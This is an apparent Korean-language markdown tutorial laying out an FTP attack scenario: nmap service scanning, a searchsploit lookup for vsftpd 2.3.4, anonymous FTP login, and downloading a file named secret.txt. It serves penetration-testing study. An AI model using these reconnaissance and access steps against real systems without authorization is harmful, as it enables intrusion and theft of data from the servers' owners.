 
## FTP 공격 시나리오 예시

### 1. 정보 수집 및 취약점 확인

- **nmap을 통한 FTP 서비스 및 버전 확인**
    ```
    nmap -sV -p 21 -Pn -sC [타겟IP]
    ```
    ```
	nnmap -p 21 -sV --script="*ftp*" -Pn -n --open [타겟IP]
    ```
    - 결과 예시:  
      21/tcp open  ftp     vsftpd 2.3.4
	  ftp-anon: Anonymous FTP login allowed (FTP code 230)

- **알려진 취약점 검색**
    ```
    searchsploit vsftpd 2.3.4
    ```
    - 관련 익스플로잇 존재 여부 확인

---

### 2. 익명 로그인(Anonymous Login) 시도

- **ftp 클라이언트로 접속**
    ```
    ftp [타겟IP]
    ```
    - 로그인 시 아이디: `anonymous`, 비밀번호: 아무 값이나 입력

---

### 3. 파일/디렉토리 다운로드/업로드

- **디렉토리 내 파일 목록 확인**
    ```
    ftp> ls
    ```
    - 예시 결과:  
      `/upload/` 디렉터리 존재 확인
	  `secret.txt` 파일 존재 확인

- **파일 다운로드**
    ```
    ftp> get secret.txt
    ```
    - 파일이 칼리 리눅스(로컬)에 다운로드됨

- **다운로드한 파일 내용 확인**
    ```
    cat secret.txt
    ```

